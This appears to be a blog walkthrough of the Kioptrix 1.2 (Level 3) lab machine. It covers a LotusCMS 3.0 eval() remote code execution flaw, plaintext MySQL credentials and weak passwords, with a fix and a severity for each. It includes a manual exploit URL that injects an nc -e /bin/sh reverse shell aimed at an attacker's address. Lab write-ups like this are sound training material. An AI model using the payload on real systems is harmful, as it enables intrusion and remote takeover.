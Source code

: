 ```yaml
---
layout: post
title: "Kioptrix 1.2 (Level 3) Walkthrough"
date: 2019-09-02
---
```


Kioptrix level 3 is yet another penetration testing challenge from Kioptrix series. This particular machine is vulnerable to Remote Command Execution (RCE), SQL Credentials stored in plaintext, weak passwords and a text editor running with administrative credentials.

**Vulnerable System**: Kioptrix 1.2 (Level 3)
=============================================

**Operating System**: Ubuntu 8.04

**Kernel**: 2.6.24

**Vulnerability Exploited**: LotusCMS 3.0 - 'eval()' Remote Command Execution

*Python Script Exploit*

**Exploit Used**: LotusCMS 3.0 PHP Code Execution

**Proof of Concept Code**:
<https://packetstormsecurity.com/files/122161/LotusCMS-3.0-PHP-Code-Execution.html>

*Manual Exploit*

**Exploit Used**: Manual Exploit Based on: LotusCMS 3.0 - 'eval()' Remote
Command Execution (Metasploit)

**Proof of Concept Code**:
http://kioptrix3.com/index.php?page=index%27)%3B%24{system(%27nc+-e+%2Fbin%2Fsh+\<ip
address\>+\<port number\>%27)}%3B%23

**Vulnerability Explained**: An attacker can exploit this vulnerability to
execute local commands through the webserver’s URL. This allowed the attacker to
gain remote access to and compromise the system.

**Vulnerability fix**: Currently no fixes or patches are available.

**Severity**: **Medium**

**Vulnerability Exploited:** Plaintext MySQL credentials found in configuration
file.

**Vulnerability Explained**: Plaintext credentials were found in configuration
file on the webserver. These credentials further granted access to MySQL
databases where other user credentials were found.

V**ulnerability Fix**: The user’s credentials in configuration files should be
hashed and the plaintext password stored in a secure location.

**Severity**: Low

**Vulnerability Exploited**: Weak Passwords, Reused passwords.

**Vulnerability Explained**: User passwords found in MySQL databases were easily
crackable via a dictionary attack.
